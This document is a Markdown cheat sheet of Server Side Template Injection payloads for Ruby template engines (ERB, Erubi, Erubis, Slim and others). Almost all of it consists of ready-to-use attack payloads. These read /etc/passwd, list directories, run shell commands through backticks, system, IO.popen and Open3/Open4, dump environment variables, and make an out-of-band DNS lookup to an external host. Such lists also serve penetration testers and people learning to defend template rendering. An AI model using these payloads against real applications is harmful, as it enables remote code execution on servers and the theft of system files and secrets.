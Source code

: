 # Server Side Template Injection - Ruby

## Summary

- [Templating Libraries](#templating-libraries)
- [Ruby](#ruby)
    - [Ruby - Basic injections](#ruby---basic-injections)
    - [Ruby - Retrieve /etc/passwd](#ruby---retrieve-etcpasswd)
    - [Ruby - List files and directories](#ruby---list-files-and-directories)
    - [Ruby - Remote Command execution](#ruby---remote-Command-execution)


## Templating Libraries

| Template Name | Payload Format |
| ------------ | --------- |
| Erb      | `<%= %>`   |
| Erubi    | `<%= %>`   |
| Erubis   | `<%= %>`   |
| HAML     | `#{ }`     |
| Liquid   | `{{ }}`    |
| Mustache | `{{ }}`    |
| Slim     | `#{ }`     |


## Ruby

### Ruby - Basic injections

**ERB**:

```ruby
<%= 7 * 7 %>
```

**Slim**:

```ruby
#{ 7 * 7 }
```

### Ruby - Retrieve /etc/passwd

```ruby
<%= File.open('/etc/passwd').read %>
```

### Ruby - List files and directories

```ruby
<%= Dir.entries('/') %>
```

### Ruby - Remote Command execution

Execute code using SSTI for **Erb**,**Erubi**,**Erubis** engine.

```ruby
<%=(`nslookup oastify.com`)%>
<%= system('cat /etc/passwd') %>
<%= `ls /` %>
<%= IO.popen('ls /').readlines()  %>
<% require 'open3' %><% @a,@b,@c,@d=Open3.popen3('whoami') %><%= @b.readline()%>
<% require 'open4' %><% @a,@b,@c,@d=Open4.popen4('whoami') %><%= @c.readline()%>
```

Execute code using SSTI for **Slim** engine.

```powershell
#{ %x|env| }
```

---